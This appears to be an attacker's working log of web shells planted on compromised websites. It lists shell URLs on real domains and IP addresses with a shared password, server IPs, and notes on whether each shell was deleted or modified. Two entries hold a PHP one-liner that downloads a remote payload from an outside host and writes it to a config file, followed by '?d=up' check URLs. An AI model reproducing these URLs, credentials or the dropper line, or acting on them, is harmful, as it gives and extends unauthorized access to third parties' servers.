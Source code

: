http://114.215.157.212:8885/apps/api/view/default/index_bk.php |mmk123   404被删 
http://114.215.157.212:8885/index_bk.php |mmk123    404被删
http://tnt.zdxinfo.com/assets/css/skins/skin.php |mmk123 |  123.56.182.44 | 404  404被删
http://fy.whqrlm.com/apps/admin/m1.php |mmk123 |  123.56.182.44 404被删
代码更新：0608 ✅
http://fy.whqrlm.com/rewrite/httpd.php 404被删
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://fy.whqrlm.com/config/httpd.php?d=up
http://www.xrca.com.cn/static/index_bk.php |mmk123 |  101.200.217.38
代码更新：0608 ✅
http://www.xrca.com.cn/rewrite/httpd.php 404被删
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.xrca.com.cn/config/httpd.php?d=up
http://36.137.146.112:9001/template/default/fileinput/css/index_bk.php |mmk123  404被删
http://36.137.146.112:9001/index_bk.php |mmk123  404被删
http://118.25.152.47:7077/index_bk.php |mmk123  404被删
https://www.alsophila.net/indexbak.php大马 |Admin001... |大马 | 111.229.208.84 404被删
https://111.229.208.84/runtime/data/9e776527ecbc372af46aafe2257957ebfd4.php |mmk123 
https://111.229.208.84/index_bk.php |mmk123 404被删
http://123.56.162.208/index_bk.php |mmk123 404被删
http://8.140.22.9/index_bk.php |mmk123 404被删
http://49.235.71.132:384/index_bk.php |mmk123 404被删






可以修改的


http://8.138.18.52/template/template_init.php |mmk123  已改
http://43.138.246.227/template/template_init.php |mmk123   已改
http://47.106.151.193/template/template_init.php |mmk123    已改
http://112.74.55.251:32/template/template_init.php |mmk123      http://112.74.55.251:32/config/httpd.php?d=up    已改
http://8.130.107.246/template/template_init.php |mmk123   已改
http://8.138.1.80/template/template_init.php |mmk123    已改
http://106.15.239.172:32/template/template_init.php |mmk123   已改
http://111.229.254.166/template/template_init.php |mmk123   已改
http://www.lgms56.cn/skin/images/m1.php |mmk123 |  114.55.130.128 已改
http://121.36.109.42/template/template_init.php |mmk123  已改
http://114.55.130.128:9090/template/template_init.php |mmk123   已改
http://cablewiresfactory.com/template/template_init.php |mmk123 |  216.224.127.219 已改
http://www.juheyuanjing.com/template/template_init.php |mmk123 |RSA 编码器--提取 | 129.227.60.74 已改
http://cs.jsmbr.top/template/template_init.php |mmk123 |  43.129.26.37 已改
https://xqu.ruantu.fun/template/default/simple.php |mmk123 |  47.121.31.234 已改
https://introduce.crword.shop/index_bk.php |mmk123 |  124.222.235.221    https://introduce.crword.shop/doo.php?d=template 已改
http://c.fangac.cn/three/three.js-master/src/geometries/m1.php |mmk123 |  114.55.58.214 |  手动修改
http://lybt.fangac.cn/core/cache/m1.php |mmk123 |  114.55.58.214 已改
https://huace.darexian.com/static/backup/sql/m1.php |mmk123 |  8.134.216.133  https://huace.darexian.com/config/httpd.php?d=up 已改
http://www.gzchaoyinsu.com/template/default/bootstrap/js/js.php |mmk123 |  120.77.250.124 已改
http://112.124.15.47/template/default/bootstrap/js/js.php |mmk123     http://112.124.15.47/config/httpd.php?d=up   已改
http://121.40.25.18/template/default/bootstrap/js/js.php |mmk123    http://121.40.25.18/config/httpd.php?d=up 已改
http://47.94.13.2:8000/template/default/bootstrap/js/js.php |mmk123     http://47.94.13.2:8000/config/httpd.php?d=up   已改
http://47.93.60.207/template/default/bootstrap/js/js.php |mmk123     http://47.93.60.207/config/httpd.php?d=up   已改